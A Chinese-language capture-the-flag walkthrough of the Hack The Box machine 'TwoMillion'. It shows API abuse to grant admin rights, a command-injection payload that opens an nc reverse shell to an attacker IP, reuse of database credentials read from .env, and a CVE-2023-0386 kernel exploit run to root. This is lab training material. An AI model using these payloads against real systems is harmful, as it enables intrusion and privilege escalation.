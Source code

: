# 服务
```
┌──(root㉿kali)-[~/htb]
└─# nmap -sV -Pn -A -O  10.10.11.221
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-13 22:36 EDT
Nmap scan report for 10.10.11.221
Host is up (0.45s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/13%OT=22%CT=1%CU=39947%PV=Y%DS=2%DC=T%G=Y%TM=66BC188
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=101%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O
OS:3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   300.88 ms 10.10.16.1
2   538.94 ms 10.10.11.221

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.94 seconds

```

加域名
```
echo "10.10.11.221 2million.htb" >> /etc/hosts
```

dir brute
```
┌──(root㉿kali)-[~/htb]
└─# python3 /root/dirsearch/dirsearch.py -u http://2million.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11730

Output: /root/htb/reports/http_2million.htb/__24-08-13_23-01-36.txt

Target: http://2million.htb/

[23:01:36] Starting: 
[23:01:42] 301 -  162B  - /js  ->  http://2million.htb/js/                  
[23:02:25] 200 -    2KB - /404                                              
[23:03:23] 401 -    0B  - /api                                              
[23:03:24] 401 -    0B  - /api/v1                                           
[23:03:29] 301 -  162B  - /assets  ->  http://2million.htb/assets/          
[23:03:29] 403 -  548B  - /assets/                                          
[23:03:59] 403 -  548B  - /controllers/                                     
[23:04:02] 301 -  162B  - /css  ->  http://2million.htb/css/                
[23:04:28] 301 -  162B  - /fonts  ->  http://2million.htb/fonts/            
[23:04:38] 302 -    0B  - /home  ->  /                                      
[23:04:42] 301 -  162B  - /images  ->  http://2million.htb/images/          
[23:04:42] 403 -  548B  - /images/                                          
[23:04:52] 403 -  548B  - /js/                                              
[23:05:03] 200 -    4KB - /login                                            
[23:05:04] 302 -    0B  - /logout  ->  /                                    
[23:05:57] 200 -    4KB - /register                                         
[23:06:52] 301 -  162B  - /views  ->  http://2million.htb/views/  
```

根据页面提示去到一个invite页面，查看源代码审查inviteapi.min.js

交给GPT，得知有两个接口

校验码接口：http://2million.htb/api/v1/invite/verify

生成密码接口：http://2million.htb/api/v1/invite/generate

生成一个邀请码：

![](TwoMillion_files/1.jpg)


这个MzhZQ1QtSFJEUU8tSFhVQzMtNFRVSzk=要base64解密为：38YCT-HRDQO-HXUC3-4TUK9

然后在invite页面输入，跳转到注册页面：

![](TwoMillion_files/2.jpg)

注册完后登录到后台

![](TwoMillion_files/3.jpg)


如果直接访问/api/v1会返回404，但是放到burpsuite里则会返回所有接口地址

![](TwoMillion_files/4.jpg)

```
{
	"v1": {
		"user": {
			"GET": {
				"\/api\/v1": "Route List",
				"\/api\/v1\/invite\/how\/to\/generate": "Instructions on invite code generation",
				"\/api\/v1\/invite\/generate": "Generate invite code",
				"\/api\/v1\/invite\/verify": "Verify invite code",
				"\/api\/v1\/user\/auth": "Check if user is authenticated",
				"\/api\/v1\/user\/vpn\/generate": "Generate a new VPN configuration",
				"\/api\/v1\/user\/vpn\/regenerate": "Regenerate VPN configuration",
				"\/api\/v1\/user\/vpn\/download": "Download OVPN file"
			},
			"POST": {
				"\/api\/v1\/user\/register": "Register a new user",
				"\/api\/v1\/user\/login": "Login with existing user"
			}
		},
		"admin": {
			"GET": {
				"\/api\/v1\/admin\/auth": "Check if user is admin"
			},
			"POST": {
				"\/api\/v1\/admin\/vpn\/generate": "Generate VPN for specific user"
			},
			"PUT": {
				"\/api\/v1\/admin\/settings\/update": "Update user settings"
			}
		}
	}
}
```


使用/api/v1/user/auth 接口，查询到当前用户信息

![](TwoMillion_files/5.jpg)

```
{"loggedin":true,"username":"max","is_admin":0}
```

测试/api/v1/admin/settings/update，提示缺少emial参数

![](TwoMillion_files/6.jpg)

加上email参数后，提示缺失参数is_admin

![](TwoMillion_files/7.jpg)

加上is_admin以后，返回成功：

![](TwoMillion_files/8.jpg)



测试/api/v1/admin/vpn/generate，提示缺少参数username

![](TwoMillion_files/9.jpg)

这里的参数存在命令注入：

![](TwoMillion_files/10.jpg)

![](TwoMillion_files/11.jpg)

以下payload拿到foodhold
```
{"username":"max;rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f"}
```
rev
```
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.221] 34386
/bin/sh: 0: can't access tty; job control turned off
$ ls

```

环境变量有密码
```
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
$ 

```

提权
```
$ su admin
Password: SuperDuperPass123
id
uid=1000(admin) gid=1000(admin) groups=1000(admin)

```


# 提权

查看admin邮件

```
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

```

使用[CVE-2023-0386](https://github.com/Fanxiaoyao66/CVE-2023-0386)
```
admin@2million:/tmp$ /bin/bash exp.sh
[+] Create dir
[+] Compile fuse.c
[+] Create fuse file system
[+] Create overlayFS
[+] Copy Up
[+] You are root!
# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
# 

```